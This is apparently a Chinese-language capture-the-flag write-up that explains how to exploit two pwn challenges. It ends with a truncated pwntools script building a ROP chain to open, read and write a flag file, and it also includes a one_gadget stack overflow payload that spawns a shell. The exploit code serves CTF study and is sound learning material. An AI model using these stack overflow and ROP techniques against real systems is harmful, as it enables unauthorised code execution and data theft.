 ```python

ogg = libc_base + 0xebc81

p.recvuntil(b'magic')
payload = b'\x00' * (0x30) + p64(elf.bss() + 0x100) + p64(ogg)

p.send(payload)

p.interactive()
```
# stack
反编译后的伪代码看不出什么，需要直接看汇编
![[Pasted image 20250302223649.png]]
主函数`print`了两个``msg``以及一个`rsp`指针，然后`read`之后跳转到`rsp`指的地方
![[Pasted image 20250302223809.png]]
再看看`print`函数以及`gadgets`函数，利用这些可以做到控制`rax,rsi,rdi,rbx,r13,r15`，
![[Pasted image 20250302224032.png]]
接受一下泄漏的地址可以发现是栈地址，可以把文件路径存在这里后面调用。
调试很久本打算控制寄存器调用`execve`直接`binsh`，但发现不能控制`rdx`用不了`execve`（也可能我哪里弄错了），最后选择构造`orw`。
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
ip = 'node2.anna.nssctf.cn'
port = 28073
if local:
	p = process('./stack')
	pwnlib.gdb.attach(p, 'b *0x401033')
else:
	p = remote(ip, port)
	# p = websocket()  

ret = 0x401013
elf = ELF('./stack')

p.recvuntil(b'\x20\x29\x0a')
recv = u64(p.recv(6).ljust(8, b'\x00'))
log.success(f'recv: {hex(recv)}')

p.recvuntil(b'\x3e\x3e\x20')
payload = flat([
	# open
	0x401017,
	0,
	0,
	'./flag\x00\x00', # 将路径存在泄漏的栈地址
	0x401017,
	0,
	0,
	0,
	2,                # r13赋值open的系统调用，后面赋给rax
	0x40100c,
	0x401017,
	0,
	0,
	0,
	0x401017,
	0,
```
